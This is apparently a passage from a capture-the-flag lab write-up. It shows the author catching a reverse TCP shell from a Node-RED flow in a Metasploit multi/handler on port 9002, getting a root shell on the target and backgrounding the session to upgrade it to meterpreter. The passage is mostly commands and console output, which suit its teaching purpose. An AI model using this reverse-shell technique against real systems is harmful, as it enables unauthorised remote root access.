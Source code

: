I’ll get a meterpreter session going with nodered.

This is actually really easy with existing setup. I already have a flow that generates a callback to port 9002. I’ll catch that in metasploit, and then upgrade that shell to meterpreter.

Open a handler with payload `linux/x64/shell/reverse_tcp`, and catch a callback from my flow:

```

msf exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT  9002             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9002 
[*] Sending stage (38 bytes) to 10.10.10.94
[*] Command shell session 1 opened (10.10.14.14:9002 -> 10.10.10.94:44602) at 2018-07-27 06:33:58 -0400

/bin/sh: 0: can't access tty; job control turned off
# 

```

For some reason, the first command run in this new shell can be garbage and fail. After making sure to get that out of the way, I’ll background the session (ctrl-z):

```

# id
/bin/sh: 1: j^H��j!Xu�j: not found
/bin/sh: 1: X�H�/bin/shSH��RWH��id: not found
# id
uid=0(root) gid=0(root) groups=0(root)
# ^Z
Background session 1? [y/N]  y
msf exploit(multi/handler) >

```
